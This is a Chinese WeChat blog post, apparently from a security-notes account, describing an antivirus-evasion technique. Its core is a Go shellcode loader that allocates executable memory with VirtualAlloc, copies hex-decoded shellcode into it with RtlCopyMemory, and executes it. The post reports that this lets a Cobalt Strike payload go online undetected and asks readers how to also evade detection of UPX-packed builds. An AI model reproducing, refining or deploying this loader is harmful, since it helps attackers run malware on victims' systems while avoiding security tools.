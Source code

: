 ##  我的免杀之路：内存隐藏

原创 Snaker  [ Snaker独行者 ](javascript:void\(0\);)

**Snaker独行者** ![]()

微信号 gh_e5407d383892

功能介绍 记录本人网络安全知识/经验/笔记，致敬未来的我。

____

__

收录于话题

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825082741.png)

  

**【简述】**

 **  
**

内存隐藏技术的核心在于将自己的shellcode注入到内存当中并隐藏起来，那么可以围绕Windows
API中的RTLCopyMemory函数开展，RTLCopyMemory函数是Windows内核函数，能够实现内存块的复制。而同样能够实现内存块复制的，还有一个RTLMoveMemory函数，然而RTLCopyMemory和RTLMoveMemory的区别在于是非重叠内存区域的复制，RTLCopyMemory非重叠复制，而RTLMoveMemory是重叠复制。这很好理解，看图：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825082756.png)



如果需要将A到C段的内存复制到B到D段内存上，这B到C段的内存就是重叠部分。如果使用RTLCopyMemory函数，重叠的部分不会被覆盖；如果使用RTLMoveMemory函数，重叠的部分也会被覆盖，当然，两者的结果都是一样的。经过测试，也证实了自己的想法，无论是用RTLCopyMemory还是RTLMoveMemory函数，都可以达到免杀的目的。

  

  

  

 **【实现思路】**

 **  
**

直接上核心代码部分，难度不大

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     func ShellCode_RTLCopyMemory(shellcode string) error {    bad_Shellcode := []byte(shellcode)    addr, _, err := VirtualAlloc.Call(0, uintptr(len(bad_Shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)    if addr == 0 {      return err    }    ds, _ := hex.DecodeString(shellcode)    _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&ds[0])), uintptr(len(shellcode)))    if err != nil {       if err.Error() != "The operation completed successfully." {          return err       }    }    _, _, err = syscall.Syscall(addr, 0, 0, 0, 0)    if err != nil {       if err.Error() != "The operation completed successfully." {          return err       }    }    return nil}

着重说一下关于RTLCopyMemory函数，它有三个参数

 **参数**

|

 **意义**  
  
---|---  
  
Destination

|

数据类型：void*。指向要将字节复制到的目标内存块的指针。  
  
Source

|

数据类型：const void*。指向要从中复制字节的源内存块的指针。  
  
Length

|

数据类型：size_t。要从源复制到目标的字节数。  
  
复制需要源内存块的指针和目标内存块的指针，因为内存块的复制会导致地址偏移，所以这里必须要unsafe.Pointer和uintptr配合来实现，然而目标地址怎么设置呢？这就需要用到VirtualAlloc函数进行虚拟内存分配，我们需要的虚拟内存大小就是shellcode的长度，所以这里的目标地址就是我们申请的虚拟内存地址。源内存块地址就是shellcode转化成字节后，即ds[]，第0位的指针位置，即&ds[0]（备注：golang中的&和*符号都是指针符号，&符号的意思是对变量取地址，*符号的意思是对指针取值。）  
其实这就是 **内存注入技术**
，通过VirtualAlloc申请一块内存空间，VirtualAlloc如果调用成功，则返回分配的首地址。接着将Shellcode复制到VirtualAlloc申请的内存中，进行调用。这种方法的优势就是被发现的概率很低，甚至可以被忽略，注入后将注入工具删除即可。但是这种技术也存在一个弊端，因为内存是易失性存储器，所以系统必须一直开机，不能关闭。

  

最后的CS上线免杀效果：

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825082757.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825082759.png)

  

（这里本人有个问题不知道该如何解决，没经过upx压缩的并不会报毒，能成功bypass，而经过upx压缩的会被查杀出来，我已经修改过upx的静态特征，但是依旧被查杀出来，望师傅们指点指点）

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825082800.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

我的免杀之路：内存隐藏

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

